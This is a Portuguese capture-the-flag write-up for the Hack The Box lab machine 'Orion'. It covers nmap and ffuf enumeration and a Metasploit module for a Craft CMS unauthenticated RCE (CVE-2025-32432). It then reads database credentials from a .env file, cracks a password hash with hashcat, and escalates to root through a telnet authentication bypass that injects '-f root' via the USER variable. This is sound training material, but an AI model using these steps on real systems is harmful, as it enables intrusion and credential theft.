# CTF Orion | Hack The Box

| Máquina             | Orion        |
| ------------------- | ------------ |
| Dificuldade         | Fácil        |
| Plataforma          | Hack The Box |
| Sistema Operacional | Linux        |


# Reconhecimento

Iniciamos com uma enumeração do host, utilizando o Nmap afim de identificar serviços expostos e portas ativas.

```shell
nmap -p- --min-rate 1600 -sVC -Pn --open 10.129.244.146
```

Obtendo as portas:



Com o retorno do scan, identificamos o domínio `orion.htb` onde adicionamos ao arquivo `/etc/hosts`. 

```shell
echo "10.129.244.146 orion.htb" | sudo tee -a /etc/hosts
```

Ao navegarmos para o domínio, nos deparamos com uma aplicação web.



Analisando a aplicação, identificamos que no final da página é mostrado o Content Management System que está rodando na aplicação



# Enumeração

Em seguida, decidimos por realizarmos um **fuzzing** de diretórios utilizando a ferramenta **ffuf**, para descobrirmos diretórios e arquivos ocultos.

```shell
ffuf -u http://orion.htb/FUZZ -w SecLists/Discovery/Web-Content/big.txt -t 160 -fs 12272
```

Retornando o diretório `admin`: 



Ao navegarmos até o diretório `/admin`, encontramos a tela de login do `Craft CMS` e identificamos que a versão desse Content Management System era a `5.6.16`



Com a versão do `Craft CMS`, realizamos uma busca por quais vulnerabilidades essa versão possui. Encontrando a `CVE-2025-32432` em que permite `Remote Code Execution` sem autenticação.

```shell
https://nvd.nist.gov/vuln/detail/CVE-2025-32432
```

# Exploração 

Para explorarmos essa vulnerabilidade, pesquisamos por exploits através do `metasploit` encontrando o seguinte exploit:

```shell
exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```



Após habilitarmos a estrutura `shell` e estabilizarmos ela com esses comandos:

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Percebemos que estamos como usuário `www-data`, assim iniciamos uma análise pelo servidor. 



Em seguida, encontramos um arquivo `.env` no diretório `/craft`.



Acessando o arquivo, encontramos credenciais para acessar o banco de dados `MySQL`.

```MYSQL
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
```

Com essa credencial, acessamos o banco de dados.

```shell
mysql -u root -p orion
```



Ao encontrarmos a tabela `users`, identificamos uma `hash` que continha a senha do usuário `Adam`

 ```MYSQL
 SELECT * FROM users;
 ```



Para descriptografar essa hash, utilizamos a ferramenta `Hashcat` 

```shell
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```



Em seguida, conseguimos acessar o serviço via `SSH` e obter a user flag!



# Escalação de Privilégio

Verificando se há alguma porta aberta que não esteja rodando externamente, identificamos a `porta 23/telnet`  através do comando

```shell
netstat -tulnp
```



Em seguida, checamos a versão do `telnet` para que possamos buscar alguma vulnerabilidade que nos leve a escalação privilégio

```
telnet --version
```



Encontramos a `CVE-2026-24061` que permite o bypass de autenticação remota através de um valor de `"-f root"` para a variável de ambiente do `USER`. 

```shell
https://nvd.nist.gov/vuln/detail/cve-2026-24061
```

Então para explorar essa vulnerabilidade, basta executar esse comando:

``` shell
USER="-f root" telnet -a 127.0.0.1
```



E obtemos a root flag! 


